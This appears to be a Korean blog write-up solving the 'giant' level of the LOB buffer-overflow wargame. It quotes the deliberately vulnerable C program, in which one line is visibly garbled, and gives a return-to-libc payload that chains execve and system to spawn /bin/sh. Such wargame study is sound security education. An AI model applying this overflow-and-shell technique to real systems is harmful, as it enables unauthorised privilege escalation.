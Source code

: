 ```yaml
---
layout: post
title:  "[LOB]Level14. giant"
subtitle:   "[LOB]bugbear → giant"
categories: Write-up
tags:
- Wargame
- LOB(The Lord of Bufferoverflow)
- Write-up
---
```


## keyword : RTL2, only execve

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - giant
        - RTL2
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(int argc, char *argv[])
{
	char buffer[40];
	FILE *fp;
	char *lib_addr, *execve_offset, *execve_addr;
	char *ret;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// gain address of execve
	fp = popen("/usr/bin/ldd /home/giant/assassin | /bin/grep libc | /bin/awk '{print $4}'", "r");
	fgets(buffer, 255, fp);
	sscanf(buffer, "(%x)", &lib_addr);
	fclose(fp);

	fp = popen("/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'", "r");
	fgets(buffer, 255, fp);
	sscanf(buffer, "%x", &execve_offset);
	fclose(fp);

	execve_addr = lib_addr + (int));
	// end

	memcpy(&ret, &(argv[1][44]), 4);
	if(ret != execve_addr)
	{
		printf("You must use execve!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```

소스코드에는 다음단계의 libc주소를 파싱해서 가져와서 lib_addr에 저장을 한다.

그리고 해당 libc에서 __execve 함수 주소의  offset을 구해서 execve_offset에 저장을 한다.

`argv[1][44]` 에 주소를  ret에 저장을 하고 해당 값이 다르면 "You must use execve!"문자열을 출력하고 프로그램을 종료된다.

ret주소에 execve주소로 Buffer Overflow를 시키고 인자값으로 system함수의 주소를 넣어준다. 

system  함수의 인자로 "/bin/sh"의 주소를 넣어주면 payload가 완성된다.



execve_addr = ebp-56  => 0x080da023 / 0x400a9d48

system : 0x40058ae0

"/bin/sh" = 0x400fbff9

```sh
./giant "`python -c 'print "A"*44+"\x48\x9d\x0a\x40"+"\xe0\x8a\x05\x40"*2+"\xf9\xbf\x0f\x40"'`"
```

"\x0a"를 엔터로 인식하기 때문에 페이로드 전체를 "" 로 묶어준다.



**giant / one step closer**